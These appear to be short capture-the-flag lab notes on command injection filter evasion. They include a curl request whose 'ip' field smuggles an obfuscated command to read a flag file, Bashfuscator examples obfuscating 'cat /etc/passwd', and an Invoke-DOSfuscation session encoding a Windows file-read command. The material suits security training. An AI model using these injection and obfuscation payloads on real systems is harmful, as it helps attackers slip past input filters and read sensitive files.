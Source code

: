 #

`%0a` == SPACE char

```
curl -X POST "http://94.237.49.212:41131/" --data 'ip=;{$(rev<<<"tac"),${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}'
```

> Note that we are using <<< to avoid using a pipe |, which is a filtered character.


# Bashfuscator - Linux

https://github.com/Bashfuscator/Bashfuscator

We can start by simply providing the command we want to obfuscate with the -c flag:  
`./bashfuscator -c 'cat /etc/passwd'`


we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:  
`./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1`

# DOSfuscation - Windows

```
PS C:\htb> git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS C:\htb> cd Invoke-DOSfuscation
PS C:\htb> Import-Module .\Invoke-DOSfuscation.psd1
PS C:\htb> Invoke-DOSfuscation
Invoke-DOSfuscation> help

HELP MENU :: Available options shown below:
[*]  Tutorial of how to use this tool             TUTORIAL
...SNIP...

Choose one of the below options:
[*] BINARY      Obfuscated binary syntax for cmd.exe & powershell.exe
[*] ENCODING    Environment variable encoding
[*] PAYLOAD     Obfuscated payload via DOSfuscation
```

```
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt
```
